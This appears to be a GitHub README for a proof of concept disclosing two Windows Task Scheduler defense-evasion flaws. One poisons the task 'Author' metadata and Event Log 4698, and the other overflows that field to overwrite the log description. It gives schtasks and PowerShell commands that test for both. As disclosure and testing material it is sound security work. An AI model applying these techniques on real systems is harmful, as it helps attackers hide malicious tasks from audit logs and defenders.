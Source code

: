 # Task Scheduler Logs Poisoning & Tampering
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>
Two new Defense Evasion techniques have been discovered.<br><br>
The first vulnerability is affecting the Task metadatas and the Event Log 4698 "Task Created", allowing an attacker to create a task based on an XML file and poison the "Author" entry to arbitrary data.<br>
The second vulnerability allows to leverage an unlimited allocated buffer in "Author" task metadata, which is handled further by the Windows Event Log, overwriting the whole log description.
<br>
<br>

#### Requirements
<br>

- Batch Logon rights on the Task Principal for the task to run (Otherwise the metadata / event log is poisoned / overwritten but the task won't run)
- The password of the task principal, if the user creating the task is not admin or doesn't have SeImpersonate privileges
<br>

#### Command
<br>

> Task Poisoning (Metadata / Event Log)
```bash
# Run the script to check if the INJECTED-DATA author name has been set in the task description
schtasks /create /tn poc /xml poc-poisoning.xml /ru <username> /rp <password> /f

# Check if the data has been injected by querying the task. If the author name is INJECTED-DATA the target is vulnerable
schtasks /query /tn poc /xml | findstr /i author
```
<br>

> Task Event Log Overflow
```bash
# Run the script to check if the +3500 bytes payload has been injected in the 4698 Event Log
# If the Log Type is not activated on your machine and you still want to test it, activate it in:
# Local Security Policy -> Advanced Audit Policy Configuration -> System Audit Policies - Local Group Policy Object -> Object Access -> Audit Other Object Access Events -> Select Success
schtasks /create /tn poc /xml poc-overflow.xml /ru <username> /rp <password> /f
```
<br>

> Log Check
```bash
# Check the task log by running the following powershell command. If the <RegistrationInfo> tag is containing a 3500 bytes buffer but not the command executed and the arguments, the target is vulnerable.
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4698} | Where-Object { $_.Message -like '*poc*' } |  Select-Object -First 1 | Format-List TimeCreated, Message
```
